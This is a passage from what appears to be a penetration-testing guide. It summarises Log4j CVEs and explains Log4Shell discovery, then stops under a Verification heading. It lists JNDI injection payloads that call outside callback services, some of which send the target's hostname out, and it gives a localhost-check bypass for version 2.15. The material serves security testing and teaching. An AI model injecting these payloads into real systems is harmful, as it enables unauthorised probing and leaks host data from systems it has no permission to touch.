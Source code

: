 This vulnerability affects the **Logback logging framework**, a successor to Log4j 1.x. Previously thought to be safe, the framework was found vulnerable, and newer versions (1.3.0-alpha11 and 1.2.9) have been released to address the issue.

### **CVE-2021-45105** **\[High]**

Log4j 2.16.0 contains a DoS flaw, prompting the release of `log4j 2.17.0` to fix the CVE. Further details are in BleepingComputer's [report](https://www.bleepingcomputer.com/news/security/upgraded-to-log4j-216-surprise-theres-a-217-fixing-dos/).

### [CVE-2021-44832](https://checkmarx.com/blog/cve-2021-44832-apache-log4j-2-17-0-arbitrary-code-execution-via-jdbcappender-datasource-element/)

Affecting log4j version 2.17, this CVE requires the attacker to control the configuration file of log4j. It involves potential arbitrary code execution via a configured JDBCAppender. More details are available in the [Checkmarx blog post](https://checkmarx.com/blog/cve-2021-44832-apache-log4j-2-17-0-arbitrary-code-execution-via-jdbcappender-datasource-element/).

## Log4Shell Exploitation

### Discovery

This vulnerability is very easy to discover if unprotected because it will send at least a **DNS request** to the address you indicate in your payload. Therefore, payloads like:

- `${jndi:ldap://x${hostName}.L4J.lt4aev8pktxcq2qlpdr5qu5ya.canarytokens.com/a}` (using [canarytokens.com](https://canarytokens.org/generate))
- `${jndi:ldap://c72gqsaum5n94mgp67m0c8no4hoyyyyyn.interact.sh}` (using [interactsh](https://github.com/projectdiscovery/interactsh))
- `${jndi:ldap://abpb84w6lqp66p0ylo715m5osfy5mu.burpcollaborator.net}` (using Burp Suite)
- `${jndi:ldap://2j4ayo.dnslog.cn}` (using [dnslog](http://dnslog.cn))
- `${jndi:ldap://log4shell.huntress.com:1389/hostname=${env:HOSTNAME}/fe47f5ee-efd7-42ee-9897-22d18976c520}` using (using [huntress](https://log4shell.huntress.com))

Note that **even if a DNS request is received that doesn't mean the application is exploitable** (or even vulnerable), you will need to try to exploit it.

> [!TIP]
> Remember that to **exploit version 2.15** you need to add the **localhost check bypass**: ${jndi:ldap://**127.0.0.1#**...}

#### **Local Discovery**

Search for **local vulnerable versions** of the library with:

```bash
find / -name "log4j-core*.jar" 2>/dev/null | grep -E "log4j\-core\-(1\.[^0]|2\.[0-9][^0-9]|2\.1[0-6])"
```

### **Verification**

Some of the platforms listed before will allow you to insert some variable data that will be logged when it’s requested.\
This can be very useful for 2 things:
